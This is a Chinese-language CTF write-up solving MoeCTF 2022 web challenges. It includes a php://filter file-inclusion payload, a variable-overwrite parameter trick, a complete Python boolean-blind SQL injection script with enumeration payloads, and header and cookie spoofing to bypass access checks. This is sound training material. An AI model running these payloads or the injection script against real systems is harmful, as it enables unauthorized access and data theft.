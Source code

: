# MoeCTF 2022

## Web

### baby\_file

#### 题目

```php
<?php

if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}else{
    highlight_file(__FILE__);
}
?>
```

#### 解题

这题是简单的文件包含，先用 dirsearch 扫描一下。

```bash
$ python dirsearch.py -u http://node2.anna.nssctf.cn:28169/
```

可以扫描到 `/flag.php` ，通过构造以下 Payload

```url
file=php://filter/read=convert.base64-encode/resource=flag.php
```

可以获得到 `flag.php` 的源码

```php
<?php
Hey hey, reach the highest city in the world! Actually I am ikun!!;
NSSCTF{b3333432-7dff-4ca8-b6f4-cd4bd5fc6688};
?>
```

### ezhtml

通过 `右键 - 查看网页源代码` 寻找答案没有结果，发现底下有个 `evil.js` ，访问该文件可以得到 flag 力！

### what are y0u uploading？

随便提交一个图片可以得到以下回显

```html
文件上传成功！filename：fea5445634569c851f2933f11259cc92.png
我不想要这个特洛伊文件，给我一个f1ag.php 我就给你flag!
```

通过修改 Request 中的 `filename` 为 `f1ag.php` 即可得到 flag 了。

<figure><img src=".gitbook/assets/what_are_y0u_uploading？-1.png" alt=""><figcaption></figcaption></figure>

### ezphp

先来分析源码\~

```php
<?php

highlight_file('source.txt');
echo "<br><br>";

$flag = 'xxxxxxxx';
$giveme = 'can can need flag!';
$getout = 'No! flag.Try again. Come on!';

// $_GET['flag'] 和 $_POST['flag'] 至少存在一个
if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($giveme);
}

// $_GET['flag'] 和 $_POST['flag'] 至少一个值为 flag
if($_POST['flag'] === 'flag' || $_GET['flag'] === 'flag'){
    exit($getout);
}

//将 value 的值赋给 $key
foreach ($_POST as $key => $value) {
    $$key = $value;
}

//将 $value 的值赋给 $key
foreach ($_GET as $key => $value) {
    $$key = $$value;
}

echo 'the flag is : ' . $flag;

?>
```

分析结束后，通过构造以下 Payload

```
test=flag&flag=test
```

就可以获得到 flag 了，原理是先将 test 的值复制 flag 的值，又因为必须存在一个 `$_GET['flag'] === 'flag'` ，因此将 flag 的值改为 test 的值就可以了。

### Sqlmap\_boy

查看网站源代码可以发现

```html
<!-- $sql = 'select username,password from users where username="'.$username.'" && password="'.$password.'";'; -->
```

通过访问 `http://node2.anna.nssctf.cn:28497/login.php` 回显

```json
{
	code: "0",
	message: "用户名或密码错误"
}
```

应该可以推断为布尔注入，通过编写以下代码

```python
import time
import requests

url = 'http://node2.anna.nssctf.cn:28497/login.php'
session = requests.Session()
def getDatabase():
    results = []
    for i in range(1000):
        print(f'{i}...')
        start = -1
        end = 255
        mid = -1
        while start < end:
            mid = (start + end) // 2
            params = {"username": f'admin" and (ascii(substr(database(),{i+1},1))>{mid})#'}
            ret = session.post(url, data=params)
            if '"code":"1"' in ret.text:
                start = mid + 1
            else:
                end = mid
            time.sleep(0.05)
        if mid == -1:
            break
        results.append(chr(start))
        print(''.join(results))
    return ''.join(results)

begin = time.time()
getDatabase()
print(f'time spend: {time.time() - begin}')
```

可以得到数据库名为 `moectf` ，通过修改上面代码中的变量 params 成如下内容

```python
params = {"username": f'admin" and (ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema="moectf" limit 0,1),{i+1},1))>{mid})#'}
```

可以得到数据库表 `articles,flag,users` ，通过修改上面代码中的变量 params 成如下内容

```python
params = {"username": f'admin" and (ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema="moectf" and table_name="flag"),{i+1},1))>{mid})#'}
```

可以得到列名 `flAg` ，通过修改上面代码中的变量 params 成如下内容

```python
params = {"username": f'admin" and (ascii(substr((select flAg from flag limit 0, 1),{i+1},1))>{mid})#'}
```

就可以得到 flag 力！

### cookiehead

题目包含 cookie ，那就是 Cookies 里面一探究竟！

首先打开题目后到达第一关 `仅限本地访问` ，用 HackBar 添加 Header

```http
X-Forwarded-For: 127.0.0.1
```

之后提示 `请先登录` ，将 Cookies 修改成 `login=1` 即可。

最后一关 `You are not from http://127.0.0.1/index.php !` 则添加 Header

```http
Referer: http://127.0.0.1/index.php
```

就可以得到 flag 啦！

### God\_of\_aim

右键查看源代码可以得到提示

```html
<!-- 你知道吗？index.js实例化了一个aimTrainer对象-->
```

可以在 `aimtrainer.js` 文件中发现 `checkflag1()` 和 `checkflag2()` 函数，在 Console 输入 `_0x78bd` 可以得到回显

```js
['aimTrainerEl', 'aim-trainer', 'getElementById', 'scoreEl', 'score', 'aimscore', 'delay', 'targetSize', 'aimscoreEL', 'setScore', 'start', 'innerHTML', 'setAimScore', 'position', 'style', 'relative', 'timer', 'createTarget', 'checkflag1', 'checkflag2', 'stop', 'moectf{Oh_you_can_a1m_', '你已经学会瞄准了！试试看:', 'start2', 'and_H4ck_Javascript}', '']
```

就可以得到 flag `moectf{Oh_you_can_a1m_and_H4ck_Javascript}` 了！
